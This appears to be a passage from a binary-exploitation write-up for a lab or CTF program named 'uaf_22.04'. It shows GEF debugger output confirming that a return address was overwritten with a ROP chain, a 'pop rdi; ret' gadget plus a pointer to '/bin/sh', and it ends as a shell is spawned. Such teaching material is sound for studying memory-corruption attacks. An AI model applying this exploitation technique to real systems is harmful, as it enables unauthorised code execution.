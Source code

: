 ```
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf_22.04", stopped 0x56067f5374fc in edit (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x56067f5374fc → edit()
[#1] 0x56067f53783a → main()
─────────────────────────────────────────────────────────────────────────────────
gef➤  x/3xg 0x00007ffe1340f898
0x7ffe1340f898: 0x000056067f53783a      0x0000000000000000
0x7ffe1340f8a8: 0x0000000000000002
gef➤  x/4i 0x000056067f53783a
   0x56067f53783a <main+182>:   jmp    0x56067f537861 <main+221>
   0x56067f53783c <main+184>:   mov    eax,0x0
   0x56067f537841 <main+189>:   call   0x56067f537557 <print>
   0x56067f537846 <main+194>:   jmp    0x56067f537861 <main+221>
```

And after:

```
gef➤  ni
──────────────────────────────────────────────────────────────── code:x86:64 ────
   0x56067f5374f4 <edit+018a>      mov    esi, 0x480
   0x56067f5374f9 <edit+018f>      mov    rdi, rax
   0x56067f5374fc <edit+0192>      call   0x56067f537160 <fgets@plt>
 → 0x56067f537501 <edit+0197>      mov    rax, QWORD PTR [rip+0x2b50]        # 0x56067f53a058 <u>
   0x56067f537508 <edit+019e>      mov    rax, QWORD PTR [rax+0x20]
   0x56067f53750c <edit+01a2>      mov    esi, 0xa
   0x56067f537511 <edit+01a7>      mov    rdi, rax
   0x56067f537514 <edit+01aa>      call   0x56067f537130 <strchr@plt>
   0x56067f537519 <edit+01af>      mov    QWORD PTR [rbp-0x38], rax
──────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "uaf_22.04", stopped 0x56067f537501 in edit (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x56067f537501 → edit()
[#1] 0x7f2a84828795 → iconv(cd=<optimized out>, inbuf=<optimized out>, inbytesleft=<optimized out>, outbuf=<optimized out>, outbytesleft=<optimized out>)
[#2] 0x7f2a84826a3e → perror_internal(fp=0x7ffe1340f9c8, s=<optimized out>, errnum=<optimized out>)
[#3] 0x7f2a8482000a → je 0x7f2a84820074
─────────────────────────────────────────────────────────────────────────────────
gef➤  x/3xg 0x00007ffe1340f898
0x7ffe1340f898: 0x00007f2a84828795      0x00007f2a849c041b
0x7ffe1340f8a8: 0x00007f2a84826a3e
gef➤  x/4i 0x00007f2a84828795
   0x7f2a84828795 <iconv+181>:  pop    rdi
   0x7f2a84828796 <iconv+182>:  ret
   0x7f2a84828797 <iconv+183>:  nop    WORD PTR [rax+rax*1+0x0]
   0x7f2a848287a0 <iconv+192>:  test   rsi,rsi
gef➤  x/s 0x00007f2a849c041b
0x7f2a849c041b: "/bin/sh"
```

That looks great! And now, if we continue, we see the sweet, sweet confirmation that we spawned a child process:
